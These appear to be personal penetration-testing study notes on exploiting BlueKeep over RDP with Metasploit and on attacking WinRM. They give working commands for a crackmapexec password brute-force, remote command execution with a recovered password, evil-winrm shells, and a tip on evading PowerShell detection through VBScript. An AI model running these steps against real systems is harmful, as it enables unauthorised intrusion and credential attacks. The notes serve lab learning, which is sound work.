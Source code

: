 
demo 
- run nmap to check for rdp: sudo nmap -p 3389 targetip 
- mfsconsole to check if target if vulnerable
	- search BlueKeep 
	- use the aux module and set options 
	- use 1 (it selects the module at index 1 in the current module category.)
	- set options of exploit module 
	- you need to manually configure the version of windows that you are targeting: show targets 
	- set target (number of target you need) 
	- exploit 
	- ![[Pasted image 20230705150616.png]] the size needs to be modified if it is to high because it will crash the target system 
	    --> be carefull with kernel exploit because they can crash a system and cause data loss 









### Exploiting WinRM 

About WinRM
- Windows Remote Management protocol can be uesd to facilitate remote access with Windows system over HTTP
- Makes life easier for system admins 
- WINRM is typically used in the following ways:
	- Remotely access and interact with Windows hosts on local network 
	- Remotely access and execute commands on windows systems 
	- Manage and configure Windows systems remotely 
	- WinRM typically uses TCP port 5985 and 5986 (HTTP)
- How is authentication facilitated? 
	- WinRM implements access control and security for communication between systems through various forms of authentication 
	-  We can use utility called "crackmapexec" to perform a brute-force on winrm in order to identify users and their passwords as well as execute commands on the target system 
	- we can also utilize a ruby script called "evil-winrm" to obtain a command shell session on the target system 
	
Demo 

- Perform nmap scan to check if winrm is enabled and running 
- when you cannot identify port 5985 (or 5986): run nmap on exact port 
- new terminal: launch crackmapexec 
	- start the bruteforce: **crackmapexec winrm  targetip -u adminstrator -p /usr/share/metasploit-framework/data/wordlists/unix_password.txt** 
	- execute arbitrary windows command on target: 
		- crackmapexec winrm targetip -u adminstrator -p tinkerbell -x "whoami"
		- crackmapexec winrm targetip -u adminstrator -p tinkerbell -x "systeminfo"
Can we obtain a command shell session? Yes! 
1) one way is with evil-winrm.rb:
	- **evil-winrm.rb -u adminstrator -p 'tinkerbell' -i targetip**
2) Metasploit 
	- service postgresql && msfconsole 
	- search winrm_script and use winrm_script_exec 
	- set FORCE_VBS true, set password and username 
		- By setting "force_vbs" to true, you are instructing the exploit module to force the execution of the specified script as a VBScript (VBS) file instead of a PowerShell script. This can be useful in scenarios where PowerShell execution is restricted or detected, but VBScript execution is allowed.
